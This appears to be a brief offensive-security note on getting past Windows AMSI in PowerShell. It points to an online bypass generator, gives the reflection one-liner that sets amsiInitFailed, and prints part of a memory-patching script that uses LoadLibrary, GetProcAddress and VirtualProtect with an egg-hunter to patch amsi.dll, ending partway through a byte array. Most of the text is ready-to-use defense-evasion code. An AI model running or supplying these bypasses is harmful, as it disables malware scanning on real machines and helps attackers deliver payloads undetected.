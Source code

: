 Go to amsi.fail and create a amsi bypass. It always create a unique byte code to avoid signatures





> powershell.exe 
> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true) 

If this dont work try this
````powershell
Write-Host "-- AMSI Patch"
Write-Host "-- Paul Laîné (@am0nsec)"
Write-Host ""

$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string lpLibFileName);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Kernel32

Class Hunter {
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {
        while ($true) {
            [int]$count = 0

            while ($true) {
                [IntPtr]$address = [IntPtr]::Add($address, 1)
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {
                    $count++
                    If ($count -eq $egg.Length) {
                        return [IntPtr]::Subtract($address, $egg.Length - 1)
                    }
                } Else { break }
            }
        }

        return $address
    }
}

[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")
Write-Host "[+] AMSI DLL Handle: $hModule"

[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"

If ([IntPtr]::Size -eq 8) {
	Write-Host "[+] 64-bits process"
    [byte[]]$egg = [byte[]] (
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp
````
